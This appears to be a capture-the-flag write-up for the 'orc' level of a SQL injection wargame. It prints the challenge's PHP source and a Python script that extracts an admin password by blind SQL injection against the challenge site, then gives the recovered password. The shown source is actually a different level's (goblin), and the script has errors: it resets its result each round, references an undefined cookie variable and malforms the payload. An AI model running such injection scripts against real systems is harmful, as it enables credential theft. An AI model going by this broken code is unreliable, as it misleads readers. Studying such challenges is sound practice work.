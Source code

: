 

#  ORC

```

<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```

Found the length by passing length(pw) function==8.This has a blind sqli injection.Passing my php session id as a cookie to automate the process.
###### Password:095a9852

```
import requests
import string
numbers = "0123456789"
characters = string.ascii_letters + numbers
session = {
    "PHPSESSID": "dovaradinkdstego4urhvano2"
}
dbpass = ""
for i in range(1, 10):
    dbpass = ""
    for char in characters:
        paran = {
            "pw": f"OR LEFT(pw, {i}) = '{dbpass + char}' -- "
        }
        response = requests.get("https://los.rubiya.kr/chall/orc_60e5b360795c119588e4f3a86c5dd494.php", params=paran, cookies=sesszen)
        output = response.text
        if "Hello admin" in output:
            dbpass += char
            break
print("Password:", dbpass)
```
 ***
####   query : select id from prob_orc where id='admin' and pw='095a9852'
***
